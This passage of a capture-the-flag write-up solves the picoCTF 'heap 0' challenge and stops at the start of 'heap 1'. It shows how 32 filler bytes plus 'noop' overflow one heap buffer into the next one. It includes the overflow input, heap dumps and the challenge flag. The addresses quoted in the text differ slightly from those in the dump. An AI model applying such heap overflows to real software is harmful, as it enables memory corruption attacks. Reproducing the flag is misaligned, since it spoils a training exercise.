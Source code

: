 To win, we need to make this comparation \
`if (strcmp(safe_var, "bico") != 0)` works. That means `safe_var` needs to be different from `"bico"`.

`safe_var` is defined globally, but we use it at the function `init()` to make it become a string with `"bico"`:
```c
safe_var = malloc(SAFE_VAR_SIZE);
strncpy(safe_var, "bico", SAFE_VAR_SIZE);
```

When we use the `write_buffer()` function, we do a `scanf` of a string and insert it into the variable `input_data`. If you pay close attention, `input_data` and `safe_var` are malloc'ed one after another, which means they are also located sequentially in memory. `print_heap()` confirms that when we run it:

```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x55bc1d8756b0  ->   pico
+-------------+----------------+
[*]   0x55bc1d8756d0  ->   bico
+-------------+----------------+
```

`pico` is at the address `0x557a2f2bd6b0` and `bico` is at the address `0x557a2f2bd6d0`. This is 32 bytes of distance. If we write into `input_data` with 32 bytes + _something else_, this _something else_ will be written at the `safe_var` variable.

You can write the following input on the `write_buffer` function: \
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnoop

After that, you can check using `print_heap()` that we indeed changed the `safe_var`:

```
Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x55bc1d8756b0  ->   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnoop
+-------------+----------------+
[*]   0x55bc1d8756d0  ->   noop
+-------------+----------------+
```

We can then just print the flag.

flag: `picoCTF{my_first_heap_overflow_76775c7c}`

## heap 1

On heap 1, we have almost the same code from heap0, but the comparation used to get the flag is different. Here is how it is on heap1:
